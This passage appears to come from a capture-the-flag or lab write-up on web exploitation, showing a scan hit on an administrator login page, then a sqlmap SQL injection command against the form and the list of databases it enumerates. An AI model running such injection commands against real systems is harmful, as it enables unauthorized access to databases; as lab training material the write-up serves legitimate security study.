 ```
/administrator.php (Status: 200)
```

## Web Exploitation


As mentioned in the guide, we need to use sqlmap.</br>


![](Pictures/admin_login.png)

There is an admin and password.</br>
Default creds like `admin:admin` doesn't work.

1) We need to use the url for this, since the form option works only with url</br>
2) The `--form` flag is used because, the the parameters are not passed through the url</br>

```
sqlmap -u http://10.10.122.172/administrator.php --forms -dbs
```

This will give us the databases :

```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users
```
